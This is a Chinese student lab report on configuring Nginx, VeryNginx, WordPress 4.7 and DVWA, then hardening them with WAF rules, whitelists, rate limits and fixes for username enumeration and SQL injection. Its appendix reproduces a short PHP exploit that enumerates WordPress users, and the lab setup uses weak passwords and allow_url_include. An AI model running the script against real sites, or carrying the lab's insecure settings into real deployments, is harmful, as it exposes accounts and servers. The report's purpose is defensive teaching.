


# 第五章：Web服务器

##  1. 实验环境

主机： wiin10

虚拟机： VirtualBox 6.0.4 r128413 (Qt5.6.2)

- Ubuntu 18.04
  - nginx-core: 1.14.0-0ubuntu1.2
  - [VeryNginx](https://github.com/alexazhou/VeryNginx)
  - PHP 7.2.15-0ubuntu0.18.04.2
  - mysql  5.7.25
  - wordpress 4.7
  - Damn Vulnerable Web Application (DVWA) v1.10 *Development*
- Kali-Linux-2018.3-vm-amd64-disk1

## 2. 实验要求

### 基本要求

- 在一台主机（虚拟机）上同时配置Nginx和VeryNginx
  - VeryNginx作为本次实验的Web App的反向代理服务器和WAF
  - PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
- 使用[Wordpress](https://wordpress.org/)搭建的站点对外提供访问的地址为： [https://wp.sec.cuc.edu.cn](https://wp.sec.cuc.edu.cn/) 和 [http://wp.sec.cuc.edu.cn](http://wp.sec.cuc.edu.cn/)
- 使用[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)搭建的站点对外提供访问的地址为： [http://dvwa.sec.cuc.edu.cn](http://dvwa.sec.cuc.edu.cn/)

------

### 安全加固要求

- 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
- [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
- 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，**热**修复[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
- 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

------

### VeryNginx配置要求

- [VeryNginx](https://github.com/alexazhou/VeryNginx)的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**

- 通过定制

  VeryNginx

  的访问控制策略规则实现：

  - 限制DVWA站点的单IP访问速率为每秒请求数 < 50
  - 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
  - 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
  - 禁止curl访问

## 3. 实验步骤

- 网络拓扑图

  

### 3.1 环境配置

- 首先在服务器上搭建LEMP stack
  - 参考文末教程，区别是nginx版本选择了nginx-core（忘记记录具体操作过程了）
- 在host001与host002上修改hosts文件

```bash
# windows下hosts文件路径
C:\Windows\System32\drivers\etc
  
# kali下hosts文件路径
sudo vim /etc/hosts
  
## 添加如下内容
192.168.56.102 wp.sec.cuc.edu.cn
192.168.56.102 dvwa.sec.cuc.edu.cn
192.168.56.102 verynginx.sec.cuc.edu.cn
```

- verynginx安装

```bash
# 以下是成功的安装过程
## 安装如下依赖
sudo apt install make
sudo apt install gcc
sudo apt-get install libpcre3 libpcre3-dev
sudo apt-get install libssl1.0-dev
sudo apt install zlib1g-dev
sudo apt install build-essential
sudo apt install lua-rex-pcre

## 添加nginx用户
sudo adduser nginx

# 安装过程中可能使用到的命令
## verynginx配置文件
sudo vim /opt/verynginx/openresty/nginx/conf/nginx.conf
## 检查语法错误
sudo /opt/verynginx/openresty/nginx/sbin/nginx -t 
sudo /opt/verynginx/openresty/nginx/sbin/nginx -s stop
sudo /opt/verynginx/openresty/nginx/sbin/nginx -s reload
# verynginx配置文件路径
sudo vim /opt/verynginx/verynginx/configs/config.json
# nginx日志文件路径
/var/log/nginx
# 查看端口
netstat -ntpl
```
安装成功界面：


- 安装配置wordpress

```bash
# 数据库建立相关表格 
mysql -u root -p
CREATE DATABASE wordpress DEFAULT CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
GRANT ALL ON wordpress.* TO 'wpuser'@'localhost' IDENTIFIED BY '123';
FLUSH PRIVILEGES;
EXIT;

# 配置php相关的数据库扩展，以连接数据库
sudo apt update
sudo apt install php-curl php-gd php-intl php-mbstring php-soap php-xml php-xmlrpc php-zip
sudo systemctl restart php7.2-fpm

# 下载worpress.zip
cd /tmp
wget https://wordpress.org/wordpress-4.7.zip
unzip wordpress-4.7.zip
cp /tmp/wordpress/wp-config-sample.php /tmp/wordpress/wp-config.php
sudo cp -a /tmp/wordpress/. /var/www/html/wordpress

# 修改wordpress文件夹属主及其组为Nginx默认用户
sudo chown -R www-data:www-data /var/www/html/wordpress

# wordpress配置数据库
sudo vim /var/www/html/wordpress/wp-config.php
### 添加下列内容
    define('DB_NAME', 'wordpress');

    /** MySQL database username */
    define('DB_USER', 'wpuser');

    /** MySQL database password */
    define('DB_PASSWORD', '123');

    define('FS_METHOD', 'direct');

# 生成ssl证书
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/wordpress-selfsigned.key -out /etc/ssl/certs/wordpress-selfsigned.crt
## 其中Common Name和域名要一致
	Common Name (e.g. server FQDN or YOUR name) []:wp.sec.cuc.edu.cn
sudo vim /etc/nginx/snippets/self-signed.conf
## self-signed.conf内容如下
    ssl_certificate /etc/ssl/certs/nginx-selfsigned.crt;
    ssl_certificate_key /etc/ssl/private/nginx-selfsigned.key;

# 在nginx中配置wordpress
sudo vim /etc/nginx/sites-available/default
## nginx的配置文件如下
    server {
            listen 8888;
            server_name  wp.sec.cuc.edu.cn;
            root /var/www/html/wordpress;
            index index.html index.htm index.php index.nginx-debian.html;

            # ssl证书
            include snippets/self-signed.conf;

            location / {
                   # try_files $uri $uri/ =404;
                   try_files $uri $uri/ /index.php$is_args$args;
            }
            # php
            location ~ \.php$ {
                    include snippets/fastcgi-php.conf;
                    fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
            }
    }


# 检查配置文件语法错误 
sudo nginx -t
# 重新加载配置文件
sudo nginx -s reload

```

安装成功界面：


- 安装配置DVWA
```bash
## 下载安装包
cd /tmp
git clone https://github.com/ethicalhack3r/DVWA
sudo rsync -avP DVWA/ /var/www/html/

## 配置数据库相关信息
cd /var/www/html/DVWA
cp config/config.inc.php.dist config/config.inc.php
sudo vim /var/www/html/DVWA/config/config.inc.php 
### 数据库相关信息如下
    $_DVWA[ 'db_database' ] = 'dvwa';
    $_DVWA[ 'db_user' ]     = 'dvwauser';
    $_DVWA[ 'db_password' ] = '123';

## 建立对应数据库与用户
mysql -u root -p
CREATE DATABASE dvwa DEFAULT CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost' IDENTIFIED BY '123';
FLUSH PRIVILEGES;
EXIT;
## 重启mysql使配置文件生效
systemctl restart mysql

## 修改DVWA文件夹属主及其组为Nginx默认用户
sudo chown -R www-data:www-data /var/www/html/DVWA

## 在nginx配置文件中配置DVWA
sudo vim /etc/nginx/sites-available/default
### 配置文件内容如下
    server {
            listen 9999;
            server_name  dvwa.sec.cuc.edu.cn;

            root /var/www/html/DVWA;
            index index.html index.htm index.php index.nginx-debian.html;

            location / {
                   # try_files $uri $uri/ =404;
                   try_files $uri $uri/ /index.php$is_args$args;
            }

            location ~ \.php$ {
                    include snippets/fastcgi-php.conf;
                    fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
            }
    }

## 访问http://dvwa.sec.cuc.edu.cn:9999，根据安装界面提示修改php.ini
sudo vim  /etc/php/7.2/fpm/php.ini
### 修改php.ini中下列选项
    allow_url_include = On
## 重启使配置生效
systemctl restart php7.2-fpm

## 成功后跳转到登陆页面，使用admin/password 登陆
```

安装成功界面：


### 3.2 完成实验检查点

### 基本要求

- 在一台主机（虚拟机）上同时配置Nginx和VeryNginx

  - VeryNginx作为本次实验的Web App的反向代理服务器和WAF
  - PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务


- 使用Wordpress搭建的站点对外提供访问的地址为： <https://wp.sec.cuc.edu.cn>
- 使用Damn Vulnerable Web Application (DVWA)搭建的站点对外提供访问的地址为： <http://dvwa.sec.cuc.edu.cn>

实现过程:

- 在nginx配置文件中将wordpress监听端口从8888改为127.0.0.1:8888,将DVWA监听端口从9999改为127.0.0.1:9999

- 开启verynginx的443端口用于访问wordpress

  ```bash
  sudo vim /opt/verynginx/openresty/nginx/conf/nginx.conf
  # 加入以下内容 
  server {
          listen  443;
          server_name wp.sec.cuc.edu.cn;
          #this line shoud be include in every server block
          include /opt/verynginx/verynginx/nginx_conf/in_server_block.conf;
  
          location = / {
              root   html;
              index  index.html index.htm;
          }
  
          # ssl
          ssl on;
          ssl_certificate /etc/ssl/certs/wordpress-selfsigned.crt;
          ssl_certificate_key /etc/ssl/private/wordpress-selfsigned.key;
  
      }
  ```

- 在verynginx管理界面配置以下规则

  

实现效果:



------

### 安全加固要求

- 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**

  - 在verynginx管理界面配置以下规则

    

  - 实现效果

    

- Damn Vulnerable Web Application (DVWA)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**

  - 在verynginx管理界面配置以下规则（需要注意的是此处IP要填写host-only网络内的主机IP地址）

    

  - 实现效果

    

- 在不升级Wordpress版本的情况下，通过定制VeryNginx的访问控制策略规则，**热**修复WordPress < 4.7.1 - Username Enumeration

  漏洞复现：

  设置WordPress站点为固定链接,在WordPress管理界面Settings->Permalinks中的Common Settings设置为非Plain模式。此处设置为Day and name。访问地址 `https://wp.sec.cuc.edu.cn/wp-json/wp/v2/users/`

  

  漏洞修复：禁用uri

  - 在verynginx管理界面配置以下规则

    

- 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

  sql注入：

  - 把DVWA Security调整为Low
  - sql注入效果

  

  sql注入防护：

  - 在verynginx管理界面配置以下规则

    

  -  效果：

    

### VeryNginx配置要求

- [VeryNginx](https://github.com/alexazhou/VeryNginx)的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**

  - 在verynginx管理界面配置以下规则

    

  - 实现效果

    

- 通过定制VeryNginx的访问控制策略规则实现： 

  - 限制DVWA站点的单IP访问速率为每秒请求数 < 50
  - 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
  - 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
    - 在verynginx管理界面配置以下规则
       	 	

    - 实现效果

      ```bash
      # 下载包以使用ab进行测试
      sudo apt-get install apache2-utils 
      # 测试用命令
      ab -n 500 https://wp.sec.cuc.edu.cn/
      ab -n 1000 http://dvwa.sec.cuc.edu.cn/
      ```

      

  - 禁止curl访问

    - 在verynginx管理界面配置以下规则

      

    - 实现效果

      


## 4. 遇到的问题

- verynginx的安装

  ​	本次实验在安装verynginx时折腾了很久。按照官网给的安装教程，一开始会报很多缺少依赖的错误，缺少gcc、libpcre3等依赖（完整版本在开头环境配置部分），基本都能搜索解决问题，但是下图这个错误就困扰了我很久。在github中也有相关的issue，基本都是讨论openssl版本的问题，在[这里](https://github.com/openresty/lua-nginx-module/pull/1213)作者提到已经支持openssl1.1.0，所以应该不是openssl版本的问题。

  ​	后来请教老师成功安装的经验，安装时使用libssl1.0-dev而不是libssl-dev。（此处还主动踩了源码编译安装的坑，以后多多注意~）

  

- nginx安装版本选择

  nginx的安装也没有采用官网上的最新版本，而是采用了14.0版本，官网给的15.0的目录结构和14.0的差异很大（比如没有sites-available和sites-enables文件夹,直接手动建立文件夹添加符号链接还是没配置成功）和很多教程对不上，所以采用了14.0

- 解决wordpress对外提供访问地址是https://wp.sec.cuc.edu.cn ，而不是https://wp.sec.cuc.edu.cn:8888

  ​	wordpress会在数据库中硬编码访问的url，存储的url是在访问wordpress安装界面进行安装时的url，如果在没有开启verynginx前安装了wordpress，之后再配置反向代理，最终访问的url会和预期的不一致，会出现：

  - 访问的url后面带上了端口号
  - 如果wordpress服务后期改为只监听了127.0.0.1，就直接访问不到

  的情况，所以需要注意操作的顺序，最后采用的方法顺序是：

  - 在nginx配置wordpress服务（配置在127.0.0.1:某一端口）

  - 配置verynginx反向代理

  - 经代理访问进行wordprss安装

    这样执行后数据库内硬编码的url如下，能直接用https://wp.sec.cuc.edu.cn 进行访问

      ```bash
      mysql -u wpuser -p 
      use wordpress;
      select * from  wp_options where option_id < 5;
      ```

    

## 附录

[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```bash
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}
```

## 参考
[How To Install Linux, Nginx, MySQL, PHP (LEMP stack) on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-nginx-mysql-php-lemp-stack-ubuntu-18-04)

[How To Install WordPress with LEMP on Ubuntu 18.04](<https://www.digitalocean.com/community/tutorials/how-to-install-wordpress-with-lemp-on-ubuntu-18-04>)

[How To Create a Self-Signed SSL Certificate for Nginx in Ubuntu 18.04](<https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-nginx-in-ubuntu-18-04>)

https://blog.csdn.net/xiaochuige/article/details/44223125)

[openresty/lua-nginx-module  feature: supported OpenSSL 1.1.0](https://github.com/openresty/lua-nginx-module/pull/1213)

[openresty/lua-nginx-module  Build Fail with OpenSSL 1.1.0b](https://github.com/openresty/lua-nginx-module/issues/903)

[nginxs-fastcgi-php-conf-snippet-is-missing](https://stackoverflow.com/questions/43262435/nginxs-fastcgi-php-conf-snippet-is-missing)

[WordPress REST API 内容注入漏洞](https://www.seebug.org/vuldb/ssvid-92637)

[CUCCS/linux-2019-jackcily/pull/5](https://github.com/CUCCS/linux-2019-jackcily/pull/5)

[CUCCS/linux-2019-jckling/pull/5](https://github.com/CUCCS/linux-2019-jckling/pull/5)

